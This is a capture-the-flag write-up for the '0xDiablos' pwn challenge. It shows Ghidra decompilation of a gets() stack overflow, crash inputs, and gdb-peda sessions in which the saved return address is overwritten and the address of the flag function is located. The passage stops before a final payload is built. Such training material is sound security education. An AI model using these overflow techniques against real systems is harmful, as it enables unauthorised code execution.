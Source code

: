 # 0xDiablos
- Pwn
- 20 Points

## Solution
Being able to run the program was the first problem. Attempting to run returned a strange `No such file or directory` error which was a bit confusing because the file definitly existed. Issue was because the file was 32 bit and I'm attempting to run it on a 64 bit machine. Fix was to install dependencies for 32 bit.

```Bash
sudo dpkg --add-architecture i386
sudo apt-get update
sudo apt-get install libc6:i386 libncurses5:i386 libstdc++6:i386
```

Running the program now opens a prompt expecting some input from us.

```Bash
ubuntu@ubuntu:~$ ./vuln
You know who are 0xDiablos:
 
```

Opening up the binary in ghidra we can quickly find the main function and within main the function `vuln` is called. Vuln simply gets user input and does a puts. We can easily see the vulnerability is a buffer overflow because there are no checks to make sure the buffer `local_bc` is not given an input larger than 180.

```C
void vuln(void)

{
  char local_bc [180];
  
  gets(local_bc);
  puts(local_bc);
  return;
}
```
There is another function called `flag` which will print out `flag.txt` if some parameters are set.
```C
void flag(int param_1,int param_2)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

So we need to overwrite the buffer to change the execution flow to the flag function and then also change some parameters to the ones needed to print the file. I used [peda](https://github.com/longld/peda), a nice addon for gdb, to debug the program and test/create the framework for my exploit. First step was to validate the buffer overflow and make the program crash. In vuln it is expecting input no larger than 180 so lets start by inputing 190.

```Bash
ubuntu@ubuntu:~$ (python -c "print('A' * 190)") | ./vuln
You know who are 0xDiablos
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

As expected the program crashed with a seg fault. Now lets begin debugging in gdb.
```gdb
ubuntu@ubuntu:~$ gdb ./vuln
gdb-peda$ disass vuln
Dump of assembler code for function vuln:
   0x08049272 <+0>:     push   ebp
   0x08049273 <+1>:     mov    ebp,esp
   0x08049275 <+3>:     push   ebx
   0x08049276 <+4>:     sub    esp,0xb4
   0x0804927c <+10>:    call   0x8049120 <__x86.get_pc_thunk.bx>
   0x08049281 <+15>:    add    ebx,0x2d7f
   0x08049287 <+21>:    sub    esp,0xc
   0x0804928a <+24>:    lea    eax,[ebp-0xb8]
   0x08049290 <+30>:    push   eax
   0x08049291 <+31>:    call   0x8049040 <gets@plt>
   0x08049296 <+36>:    add    esp,0x10
   0x08049299 <+39>:    sub    esp,0xc
   0x0804929c <+42>:    lea    eax,[ebp-0xb8]
   0x080492a2 <+48>:    push   eax
   0x080492a3 <+49>:    call   0x8049070 <puts@plt>
   0x080492a8 <+54>:    add    esp,0x10
   0x080492ab <+57>:    nop
   0x080492ac <+58>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x080492af <+61>:    leave
   0x080492b0 <+62>:    ret
End of assembler dump.
gdb-peda$ break *0x08049296
Breakpoint 1 at 0x8049296
```
We'll start by setting a breakpoint after the `gets` in `vuln` to inspect our input.

```gdb
gdb-peda$ r < <(python -c"print('A') * 192")
```
Using python to help us out with the input, we'll print 192 A's and redirect it to STDIN for the program.

```gdb
Starting program: /home/ubuntu/CTF/hackthebox/vuln < <(python -c "print('A' * 192)")
You know who are 0xDiablos:
[----------------------------------registers-----------------------------------]
EAX: 0xffffd0a0 ('A' <repeats 192 times>)
EBX: 0x804c000 --> 0x804bf10 --> 0x1
ECX: 0xf7fb45c0 --> 0xfbad2088
EDX: 0xf7fb589c --> 0x0
ESI: 0xf7fb4000 --> 0x1d4d8c
EDI: 0x0
EBP: 0xffffd158 ("AAAAAAAA")
ESP: 0xffffd090 --> 0xffffd0a0 ('A' <repeats 192 times>)
EIP: 0x8049296 (<vuln+36>:      add    esp,0x10)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804928a <vuln+24>: lea    eax,[ebp-0xb8]
   0x8049290 <vuln+30>: push   eax
   0x8049291 <vuln+31>: call   0x8049040 <gets@plt>
=> 0x8049296 <vuln+36>: add    esp,0x10
   0x8049299 <vuln+39>: sub    esp,0xc
   0x804929c <vuln+42>: lea    eax,[ebp-0xb8]
   0x80492a2 <vuln+48>: push   eax
   0x80492a3 <vuln+49>: call   0x8049070 <puts@plt>
[------------------------------------stack-------------------------------------]
0000| 0xffffd090 --> 0xffffd0a0 ('A' <repeats 192 times>)
0004| 0xffffd094 --> 0xf7fb4dc7 --> 0xfb58900a
0008| 0xffffd098 --> 0x1
0012| 0xffffd09c --> 0x8049281 (<vuln+15>:      add    ebx,0x2d7f)
0016| 0xffffd0a0 ('A' <repeats 192 times>)
0020| 0xffffd0a4 ('A' <repeats 188 times>)
0024| 0xffffd0a8 ('A' <repeats 184 times>)
0028| 0xffffd0ac ('A' <repeats 180 times>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08049296 in vuln ()
```
Our break point hits and we can already see some registers overwritten with A's.

```gdb
gdb-peda$ info frame
Stack level 0, frame at 0xffffd160:
 eip = 0x8049296 in vuln; saved eip = 0x41414141
 called by frame at 0xffffd164
 Arglist at 0xffffd158, args:
 Locals at 0xffffd158, Previous frame's sp is 0xffffd160
 Saved registers:
  ebx at 0xffffd154, ebp at 0xffffd158, eip at 0xffffd15c
gdb-peda$ x/64w $esp
0xffffd090:     0xffffd0a0      0xf7fb4dc7      0x00000001      0x08049281
0xffffd0a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd0b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd0c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd0d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd0e0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd0f0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd100:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd110:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd120:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd130:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd140:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd150:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd160:     0x00000000      0xffffd224      0xffffd22c      0x000003e8
0xffffd170:     0xffffd190      0x00000000      0x00000000      0xf7df7f21
0xffffd180:     0xf7fb4000      0xf7fb4000      0x00000000      0xf7df7f21
```
Inspecting our frame and stack we can see where our input landed. Most importantly, we can see `saved eip = 0x41414141`. We accomplished the first step of overwritting our saved eip register and what this means is after the `vuln` function has finished and returns it will attempt to return execution flow to address `0x41414141`. We know there is nothing at this address but if instead we changed eip to equal the address of the `flag` function it should jump to that function and begin executing. Let's give it a try.

```gdb
gdb-peda$ info func flag
All functions matching regular expression "flag":

Non-debugging symbols:
0x080491e2  flag
```
First we need the address to the flag function and above we can see the function resides at address `0x080491e2`. 
